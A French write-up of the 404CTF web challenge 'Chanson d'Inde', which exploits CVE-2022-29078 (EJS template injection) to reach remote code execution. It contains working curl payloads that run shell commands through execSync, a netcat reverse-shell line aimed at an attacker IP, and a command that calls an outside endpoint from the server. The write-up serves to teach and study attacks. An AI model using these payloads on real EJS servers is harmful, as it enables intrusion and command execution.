

# Chanson d'Inde

**Catégorie** : Web \
**Auteur** : Artamis \
**Difficulté** : Difficile \
**Points à la fin du CTF** : 991 \
**Validations** : 38

## Concept

Ce challenge met en oeuvre la [CVE-2022-29078](https://www.cvedetails.com/cve/CVE-2022-29078/) : une vulnérabilité du moteur de template EJS qui peut amener à une RCE. Après lecture du `robots.txt`, l'attaquant découvre un `CHANGELOG.md` qui laisse entendre que le package _ejs_ n'a pas été mis à jour depuis longtemps. Il faut ensuite adapter la POC de la CVE dans une requête POST et trouver un moyen de récupérer l'output des commandes que l'on exécute sur le serveur dans la réponse HTTP.

## Énoncé

Au piano, ralenti, un air d'entre les deux guerres, nommé Chanson d'Inde.
Il est joué tout entier et occupe ainsi le temps - toujours long - qu'il faut au passant, au lecteur, pour sortir de l'endroit commun où il se trouve quand il entre dans le café.
Encore Chanson d'Inde.
Encore.
Voilà, Chanson d'Inde se termine.
Reprend. De plus "loin" que la première fois, comme s'il était joué loin du lieu présent.
Chanson d'Inde joué cette fois, à son rythme habituel, de blues.

Une femme assise seule, à une table au fond du café, écrit. Son stylo rature la page. Elle marque une pause. Son regard croise le vôtre, une invitation à la rejoindre.

Vous vous asseyez auprès d'elle. Ce n'est pas un roman qu'elle écrit, mais un scénario. D'une voix douce, elle prend la parole :

« J'ai toujours le sentiment que les histoires sont là, en dehors de nous. Et que l'écrit, c'est simplement ce passage de l'histoire par soi. Un homme seul, totalement seul, organiquement seul n'écrirait pas. Et j'ai le sentiment quand je fais un film, d'appréhender quelque chose de l'extérieur vous voyez ? Pour un moment, pour le temps du film. De prendre cette histoire qui était là, et une fois le film terminé, de la rendre. C'est comme si je captais de l'eau à une rivière, et qu'ensuite je la rendais au monde. Mais souvent dans les films, il n'y a pas ce moment-là, de rendre les choses.

— Et pour ce film que vous écrivez, avez-vous ce sentiment ? »

Elle semble réfléchir, en vous regardant attentivement. Elle sort une cigarette de sa veste. L'allume.

« Dans ce scénario, je crois que je rends le film. J'ai ce sentiment. Ce qui veut dire que je suis assez contente de ce que j'ai fait.

— Tant mieux alors.

— À vous de vous l'approprier maintenant, reprend-elle avec un petit sourire en coin, prenez-le un instant pour y apporter votre touche puis rendez-le à votre tour. »

Elle vous glisse une feuille blanche. Une esquisse d'un story-board. Une magnifique scène y est représentée. Une table, une théière, une fenêtre, et derrière un lac. Mais pas de musique. Pas encore.

Sans un mot, Marguerite Duras se lève et vous laisse.

Chanson d'Inde reprend plus fort.

---

_Cet énoncé s'inspire d'un entretien vidéo que vous pouvez visionner [ici](https://www.ina.fr/ina-eclaire-actu/video/i04259990/marguerite-duras-a-propos-de-india-song)._

Marguerite Duras réalise en 1975 l'adaption de sa propre pièce de théâtre India Song. Le site internet ci-dessous rend hommage à cette œuvre cinématographique et littéraire unique en son genre. À l'instar du story-board que vous avez sous les yeux, appropriez-vous ce site internet et trouvez ce qu'il recèle.

### Liens et fichiers

**Lien** : `https://chanson-d-inde.challenges.404ctf.fr/`

### Screenshot




## Résolution

### 1 - Exploration

Vous trouverez ci-dessous un GIF qui résume les interactions de base qu'un utilisateur peut avoir avec le site web.


Ce site internet semble être un hommage à Marguerite Duras et son oeuvre _India Song_. La page d'accueil nous rappelle le lien étonnant
entre la musique et la vidéo dans l'adaptation cinématographque de sa pièce, qu'elle a elle-même réalisée.

On remarque les endpoints suivants :

- GET `/` : page d'accueil avec lien vers la page `/scene`.
- GET `/scene` : page avec une vidéo en arrière-plan ainsi qu'un formulaire pour soumettre une musique d'accompagnement à la vidéo.
- POST `/scene` : qui permet de soumettre un URL dans le corps de la requête dans le paramètre `url` ; la réponse est la même scène mais avec une balise `<audio>` qui charge une musique dont la source est l'URL soumise ainsi qu'un bouton play/pause qui permet de contrôler la musique.
- GET `/<autre>` : page d'erreur 404 classique qui nous invite à profiter de la voix de Marguerite Duras en résolvant le challenge.

### 2 - Premiers tests

Le site semble assez petit et l'énoncé est trop vague pour réellement savoir ce que nous cherchons : il faut _s'approprier ce site internet_.

Le fait que l'url rentrée dans le formulaire soit réfléchie dans la source de la balise `<audio>` peut nous faire penser à deux choses :

- une potentielle **XSS** réfléchie,
- une potentielle **SSTI** si le site utilise un langage de templating.

```html
<audio id="user-audio" hidden="">
  <source src="<url_réfléchie>" />
  Votre navigateur ne supporte pas le tag audio
</audio>
```

Nous pouvons éliminer la XSS, puisque même si entrypoint il y a, nous ne pourrons rien en faire : pas d'admin à contacter, pas de cookie à récupérer etc...

Pour ce qui est de la SSTI, nous pouvons mener quelques tests, en se basant notamment sur cet [article](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection).

En faisant plusieurs tests, nous nous rendons vite compte qu'un parsing semble avoir lieu sur le paramètre `url`, nous empêchant de rentrer quoi que ce soit qui ne ressemble pas à un vrai URL. On obtient notamment cette erreur :


Nous avons donc probablement oublié quelque chose...

### 3 - Un grand classique

Si l'énumération était autorisée, nous aurions pu lancer un _nikto_ (ou autre) pour nous rendre compte qu'il y avait au moins un endpoint supplémentaire : le grand classique `/robots.txt`.

Ce fichier à destination des bots crawler de Google, Facebook etc... permet à un webmaster de préciser quelles pages il ne souhaite pas / souhaite faire indexer par les moteurs de recherches. En l'occurrence :

```txt
User-agent: *
Allow: /
Allow: /scene
Disallow: /CHANGELOG.md
```

> Remarque : TOUJOURS tester le `/robots.txt` en début de challenge : on l'oublie vite et il peut contenir des informations très intéressantes sur l'architecture du site. Ce n'est pas le seul "metafile" utile lors de la phase de récolte d'information et vous pouvez approfondir ce sujet sur le site de l'OWASP à ce [lien](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/01-Information_Gathering/03-Review_Webserver_Metafiles_for_Information_Leakage).

BINGO ! L'endpoint `/CHANGELOG.md` doit contenir des informations utiles quant à l'évolution du site web.

> Remarque : ce genre de fichier (README, CHANGELOG) peut vite être oublié par un développeur web lorsque il publie son site en ligne -un peu à la façon des `.git`. Il arrive également que des plateformes souhaitent publier leurs changelogs avec leurs utilisateurs pour des raisons de transparence. Dans notre cas, le fichier a délibérément été laissé accessible sur le site par le développeur.

### 4 - Analyser les packages

L'analyse du `CHANGELOG.md` nous donne les informations suivantes :

- le site est en ligne depuis le 31/06/2020
- le site a été vulnérable à une SSTI jusqu'au 24/08/2020
- le site utilise un backend **Express** (NodeJS) mis à jour le 01/05/2023
- le site utilise un package nommé **EJS** mis à jour le 15/02/2021
- le parser d'URL est **express-validator** installé le 13/11/2020

En faisant quelques recherches sur internet on comprend donc que le site a un backend en Javascript, codé avec NodeJS, **ExpressJS**, le moteur de template **EJS** et utilise **express-validator** pour valider l'URL soumise.

L'intuition d'un pentester web serait d'abord de mettre en cause un parser comme _express-validator_, mais la date de son installation suggère que sa version n'est pas vulnérable à une attaque connue.

Toutefois, **ejs** semble bien plus intéressant : [cette page web](https://security.snyk.io/package/npm/ejs) répertorie plusieurs CVE sur différentes versions du package.

Notamment, la **CVE-2022-29078**, qui permet une **Remote Code Execution** (RCE) impacte les versions d'ejs inférieure à 3.1.7.

Allons consulter le [site de npm](https://www.npmjs.com/package/ejs?activeTab=versions) pour voir les dates de release des différentes versions... BINGO n°2 : la version 3.1.6 est sorie le 06/02/2021 et la 3.1.7 le 20/04/2022 !

Grâce au CHANGELOG nous savons maintenant que **la version d'ejs utilisée sur le site est probablement la 3.1.6, vulnérable à la CVE-2022-29078**.

### 5 - Mise en oeuvre de la CVE

Avec peu de recherches, on tombe rapidement sur cet excellent article de blog : https://eslam.io/posts/ejs-server-side-template-injection-rce/.

Pour résumer, cette CVE permet d'injecter du code dans le javascript qui va faire le rendu de la template ejs. Pour cela, on utilise un paramètre de debug vulnérable dans la requête HTTP.

L'erreur du développeur vient du fait qu'il transmet tous les paramètres, quels qu'ils soient, à la template de la page qu'il veut utiliser (soucis d'efficacité).

Prenons le code suivant :

```js
// index.js
app.get("/page", (req, res) => {
  res.render("page", req.query);
});
```

Passer tous les paramètres dans l'objet req.query à ejs permet de coder plus facilement la template, par exemple :

```html
<!-- page.ejs -->
<h1>Vous visitez la page <%= id %></h1>
```

De cette façon l'endpoint `/page?id=14` affichera "Vous visitez la page 14".

La Proof of Concept (PoC) nous propose de rajouter ce paramètre à la requête :

```js
settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('nc -e sh <notre_IP> 1337');s
```

Un simple listener netcat sur notre machine devrait suffit à avoir un reverse shell : `nc -lnvp 1337`.

Testons donc :

```
https://chanson-d-inde.challenges.404ctf.fr?settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('nc -e sh <notre_IP> 1337');s
```

Rien ne se passe...

### Adapter la Proof of Concept

Il nous faut d'abord un endpoint qui transmet req.query à la template ejs. A priori, l'endpoint POST `/scene` le fait pour récupérer le paramètre `url`. On peut ouvrir Postman ou utiliser curl pour faire ce genre de requêtes. Essayons déjà d'executer un `sleep`.

```bash
curl -X POST -d "url=https://hackademint.org" -d "settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('sleep 5');s" "https://chanson-d-inde.challenges.404ctf.fr/scene"
```

Parfait, nous arrivons à executer des commandes sur le server.

Nous pouvons maintenant tenter d'obtenir un reverse shell, comme indiqué dans la PoC... mais problème. En essayant de contacter un endpoint qui nous appartient avec la commande suivante :

```bash
curl -X POST -d "url=https://hackademint.org" -d "settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl <mon_endpoint>');s" "https://chanson-d-inde.challenges.404ctf.fr/scene"
```

on obtient :


Les tentatives de revshell se soldent d'erreurs similaires : **le server ne peut pas faire de requêtes vers l'extérieur du cluster où il est déployé**.

> Remarque : ce server tourne dans un docker container et d'autres tests, avec la commande `touch` par exemple, peuvent montrer que le container est en mode read-only.

Nous ne pourrons donc pas avoir de reverse shell ! Il nous faut trouver un moyen **de voir l'output de nos commandes directement dans la réponse HTTP à la requête que nous envoyons**.

Pour cela, rien de mieux que d'aller analyser le code vulnérable de ejs pour bien comprendre ce qu'il se passe : https://github.com/mde/ejs/blob/80bf3d7dcc20dffa38686a58b4e0ba70d5cac8a1/lib/ejs.js#L586-L591

On a donc :

```js
Template.prototype = {
  // ...

  compile: function() {
    // ...

    var prepended = '';
    var appended = '';

    // ...

    if (!this.source) {
      this.generateSource();
      prepended +=
        '  var __output = "";\n' +
        '  function __append(s) { if (s !== undefined && s !== null) __output += s }\n';
      if (opts.outputFunctionName) {
        prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
      }

    // ...

    appended += '  return __output;' + '\n';
    this.source = prepended + this.source + appended;

    //...
    // Return a callable function which will execute the function
    // created by the source-code, with the passed data as locals
    // Adds a local `include` function which allows full recursive include

    return returnedFn;
  }

  // ...
}

```

Pour faire simple, noutre input va directement à la place de `opts.outputFunctionName` et est donct écrit directement dans **la fonction qui va générer le code HTML final à partir de la template**.

Précisément, on voit que l'on écrir dans `this.source` qui est le code-source de la fonction de génération. Deux possibilités :

- on remarque la présence de la fonction `__append(s)` qui a l'air de servir à ajouter du contenu à la page web générée. On peut donc se servir de `__append(s)` pour ajouter l'ouput de nos commandes à la réponse HTTP ;
- on réfléchit et on remarque que, puisque la fonction dans laquelle on écrit sert doit retourner le code final de la page générée, autant l'interrompre et directement retourner ce que l'on veut en mettant un `return` ;
- on veut pas réfléchir et on a remarqué que ejs est verbeux, il va bien nous donner ce qu'on veut à un moment !

> Remarque : en créant le challenge, je n'ai pas pensé à la dernière option, bien pratique puisque certains participants du 404 CTF un peu bourrins ont pu trouver le flag grâce à cela... Bien joué à vous !

On peut maintenant créer un payload / webshell pour avoir le résultat de nos commandes dans la réponse HTTP. Il suffit d'un ou deux `ls` et un `cat` pour trouver et récupérer le flag.

#### Avec \_\_append(s)

```js
x;
__append(
  process.mainModule
    .require("child_process")
    .execSync("cat ./flag/flag.txt")
    .toString()
);
s;
```

donc

```bash
curl -X POST -d "url=https://hackademint.org" -d "settings[view options][outputFunctionName]=x;__append(process.mainModule.require('child_process').execSync('cat ./flag/flag.txt').toString());s" "https://chanson-d-inde.challenges.404ctf.fr/scene"
```

#### Avec return

```js
x;
return global.process.mainModule.constructor
  ._load("child_process")
  .execSync("cat flag/flag.txt");
s;
```

donc

```bash
curl -X POST -d "url=https://hackademint.org" -d "settings[view options][outputFunctionName]=x;return global.process.mainModule.constructor._load('child_process').execSync('cat flag/flag.txt');s" "https://chanson-d-inde.challenges.404ctf.fr/scene"
```

On obtient donc :

```txt
Marguerite Duras (Marguerite Donnadieu) est l'une des plus grandes autrices françaises du XXe siècle.
Ses romans comme "Un barrage contre le Pacifique" ou "L'Amant" (prix Goncourt 1984) rencontrent un immense succès public.
Elle ne se limite pas à un seul genre littéraire et s'essaie également au théâtre et au cinéma.

India Song est une pièce de théâtre qu'elle écrit en 1973 et adapte pour le grand écran en 1975.
Les personnages de ce film ne parlent jamais en "son synchrone in" : leurs paroles ne s'accompagnent pas de mouvement des lèvres.
Duras désynchronise "le film des voix" du "film des images" dans une proposition unique en son genre.

Ce challenge a été inspiré par cette vidéo : https://youtu.be/2FlINrAF_Co

404CTF{v01la_Ind14_S0ng_s3_tErm1n3}
```
